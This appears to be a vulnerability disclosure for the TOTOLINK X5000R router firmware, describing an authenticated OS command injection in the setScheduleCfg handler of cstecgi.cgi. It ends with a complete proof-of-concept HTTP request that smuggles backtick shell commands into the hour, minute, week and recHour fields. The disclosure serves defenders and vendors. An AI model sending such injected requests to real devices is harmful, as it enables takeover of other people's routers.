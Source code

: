 # totolink X5000r
## Firmware version
totolink X5000r devices through v9.1.0cu.2350_b20230313
## description
In totolink X5000r v9.1.0cu.2350_b20230313, the file /web/cgi-bin/cstecgi.cgi contains a OS command injection vulnerability in `setScheduleCfg`. Authenicated Attackers can send malicious packet to execute arbitary commands.
## detail
In function `setScheduleCfg` (at 0x410E4C), binary /web/cgi-bin/cstecgi.cgi. These parameters (`switch`, `week`, `hour`, `minute`, `recHour`) are passed to the `Uci_Set_Str` function without any check.

![](setScheduleCfg.png)

The `Uci_Set_Str` function is located in `libcscommon.so`. This function formats the fourth parameter into a string and passes it to the `CsteSystem` function, which eventually calls the `execv` function to execute it.

![](Uci_Set_Str().png)

![](CsteSystem().png)

## POC
```txt
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 132
Origin: http://192.168.0.1
Connection: keep-alive
Referer: http://192.168.0.1/advance/schedule.html?timestamp=1733728879167


{"mode":"1","hour":"6`ls>/tmp/1`","minute":"6`ls>/tmp/2`","week":"2`ls>/tmp/3`","recHour":"0`ls>/tmp/4`","topicurl":"setScheduleCfg","token":"836e5d5bf36f2c943d6291c332aee9b0"}
```
